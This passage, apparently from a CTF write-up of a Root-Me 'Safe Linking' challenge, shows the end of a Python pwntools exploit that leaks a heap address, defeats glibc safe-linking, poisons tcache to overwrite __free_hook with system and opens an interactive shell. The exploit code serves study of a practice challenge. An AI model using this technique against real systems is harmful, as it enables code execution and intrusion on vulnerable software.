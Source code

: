 ```python
    free(4)
    free(3)
    show(0)
    print(p.recvline())
    print(p.recvline())
    leak = u64(p.recvline().strip(b"\n").ljust(8,b"\x00"))
    heap_base = decrypt(leak) -0x2d0#- 0x6e0
    print(hex(heap_base))
    system = libc_base + libc.sym.system
    hook = libc_base + libc.sym.__free_hook
    hook = alpha(heap_base, hook)
    edit(0, p64(hook))
    add(6, 0x20, b"A" * 8)
    add(7, 0x20, p64(system))
    p.interactive()

if __name__ == "__main__":
    main()
```

**Gihub** : https://github.com/retr0Rocks/CTF-Writeups/tree/main/Root-Me/Safe%20Linking
References:  **https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/**